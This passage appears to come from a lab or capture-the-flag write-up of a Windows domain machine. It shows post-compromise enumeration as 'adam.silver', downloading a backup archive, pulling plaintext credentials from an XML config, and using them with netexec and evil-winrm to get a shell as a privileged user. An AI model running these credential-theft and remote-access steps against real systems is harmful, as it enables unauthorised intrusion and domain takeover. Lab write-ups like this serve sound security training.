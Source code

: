     This provides an interactive PowerShell session on the server as `adam.silver`.

-----

## Post-Compromise & Domain Admin Access

From `adam.silver`'s session, further enumeration leads to a backup file containing domain admin credentials.

### Backup File Discovery

1.  **Browse File System:**

    ```powershell
    dir C:\
    ```

    Identify a `Backups` directory.

2.  **Explore Backups:**

    ```powershell
    cd C:\Backups
    dir
    ```

    A file named `site-backup.zip` is found.

3.  **Download & Unzip Backup:**

    ```powershell
    download site-backup.zip
    # On attacker machine:
    unzip site-backup.zip -d backup_dir/
    ```

    Inside the backup, `NMS_Oconfig.xml` is found.

4.  **Extract Credentials from `NMS_Oconfig.xml`:**
    Examine the XML file. It contains credentials for **`steph.cooper`** with password **`ChefSteph2025`**.

### Domain Admin Access via DPAPI

`steph.cooper` is a high-privileged user. Windows DPAPI (Data Protection API) is used to protect sensitive credentials stored on the system.

1.  **Test `steph.cooper` Credentials:**

    ```bash
    netexec smb 10.10.11.70 -u steph.cooper -p 'ChefSteph2025'
    evil-winrm -i 10.10.11.70 -u steph.cooper -p 'ChefSteph2025'
    ```

    This grants an `evil-winrm` session as `steph.cooper`.
